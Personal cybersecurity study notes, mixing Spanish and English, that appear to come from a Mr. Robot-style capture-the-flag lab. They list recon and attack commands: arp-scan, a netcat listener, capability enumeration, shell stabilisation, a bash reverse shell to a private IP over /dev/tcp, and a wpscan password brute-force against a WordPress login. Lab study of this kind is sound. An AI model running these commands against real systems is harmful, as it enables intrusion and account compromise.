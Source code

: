 sudo arp-scan (ip) encuentra todos los dispositivos conectados en tu red!!!

![[arpscan.png]]

nc -nlvp 443 ( ponerse en escucha con netcat)

![[Cibersecurity/IMAGES/escuchanetcat.png]]

getcap -r / 2>/dev/null (conocer las capabilities o accesibilidades)

![[Cibersecurity/IMAGES/capabilitis.png]]

ls -la (muestra archivos ocultos)

![[backups.png]]


script /dev/null -c bash ( para ver mejor la consola al entrar en una computadora victima)
 
![[Cibersecurity/IMAGES/script-cbash.png]]

EL COMANDO PARA LA REVERSE SHELL (va con el ip propio) y sin la parte de arriba *#!/bin/bash* cuando creamos un servidor

#!/bin/bash

bash -i >& /dev/tcp/10.18.49.235/443 0>&1


# El uso de wget #

***wget http://192.168.100.28/key1-of-3.txt***
![[wget1key.png]]


# Reducir palabras repetidas # 

***unique -inp=fsocity.dic fsoc.txt***

In the archive fsocity.dic we see if there are repeated words with unique -inp=fsocity.dic

and then create a new archive caled fsoc.txt

# wpscan # 

![[wpscan.png]]

--url /select the url what we are going to attack
--output /create a report archive where put all the info *(SI NO ESPECIFICAMOS NADA, TE MUESTRA TODO EL PROCESO EN LA CONSOLA*
-P /select a dictionarie of passwords 
-U /select a dictionarie with users
-- max-threads /no se que hace
--password-attack /select the place where we are going to attack

wpscan --url http://192.168.100.28 --output wpscan-reportwp.txt -P fsoc.txt -U usuarios.txt --max-threads 20 --password-attack wp-login
![[wpscanattak.png]]


